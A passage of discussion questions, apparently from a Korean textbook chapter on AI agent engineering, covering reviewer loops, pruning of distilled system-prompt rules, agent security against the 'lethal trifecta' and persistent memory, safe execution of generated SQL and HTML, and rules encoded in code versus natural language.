4. ★★ 이 장은 PPT 생성, 비디오 편집, 로그 시각화에서 제안자-검토자 메커니즘을 반복 사용했다. Reviewer의 미적 선호와 목표 사용자가 일치하지 않으면, 예컨대 Reviewer는 정보 밀도가 합리적이라 보지만 사용자는 너무 빽빽하다고 느끼면, 피드백 순환은 잘못된 국소 최적점으로 수렴한다. 사용자의 선호 피드백이 Reviewer 순환에도 참여하게 하려면 어떻게 할 것인가?
5. ★★ 이 장은 코딩 에이전트가 실행과 디버깅에서 얻은 경험을 코드베이스에 침전시키는 여러 방식—지식베이스 파일에 기록, 아키텍처 문서 갱신, 프로젝트 지시 파일 유지, 조작 시퀀스의 코드 고정—을 보여 주었다. 이런 경험을 더 나아가 시스템 프롬프트의 규칙으로 추려 내면, 규칙 집합은 시간이 갈수록 계속 팽창할 것이다. 침전된 규칙에 "가비지 컬렉션"—중복 또는 시대에 뒤떨어진 항목을 식별해 정리—을 어떻게 할 것인가? 에이전트 스스로 경험을 침전하는 이런 메커니즘과 제8장이 논의할 시스템 프롬프트 자동 최적화는 어떤 같은 점과 다른 점이 있는가?
6. ★ "원격 근무에 친화적인 팀은 대개 AI 에이전트에도 친화적이다." 당신이 속한 팀이나 조직은 지식 문서화 면에서 "AI-ready"에 얼마나 남았는가? 가장 큰 장애는 무엇인가?
7. ★★★ 사이먼 윌리슨은 에이전트의 "치명적 삼요소"(사적 데이터 접근, 신뢰할 수 없는 콘텐츠에 노출, 외부 통신 능력 보유)를 제시했고, 이 장은 그 위에 네 번째—영속 기억—을 보탰다. 이 네 가지 요소를 동시에 다루어야 하는 생산 환경에서 보안 전략을 어떻게 설계할 것인가?
8. ★★ 아티팩트 모드는 에이전트가 생성한 SQL이나 프런트엔드 코드를 사용자 브라우저나 데이터베이스에서 직접 실행하게 한다. 그러나 생성된 SQL은 파괴적 조작을 실행할 수 있고, 생성된 HTML은 취약점을 포함할 수 있다. 시스템의 안전성을 어떻게 보장할 것인가?
9. ★★ 비즈니스 규칙을 도구 내부의 DB 진위 기반 검증으로 인코딩하고, 매개변수 설계로 모델이 호출 전에 정책 조건을 대조하도록 이끄는 것은, 본질적으로 코드 구조로 에이전트 행위를 제약하는 것이다. 이런 "코드가 곧 규칙" 모드는 자연어 규칙에 비해 어떤 장점과 한계가 있는가?
10. ★★ 아티팩트 모드는 에이전트가 SQL이나 시각화 코드를 생성하고 프런트엔드가 직접 실행하게 하여, LLM이 대량 데이터를 처리하는 것을 우회한다. 이런 "에이전트가 코드를 생성하고 시스템이 코드를 실행하는" 분업 모드는 전통의 "에이전트가 직접 답을 준다" 모드에 비해 어떤 장단이 있는가?
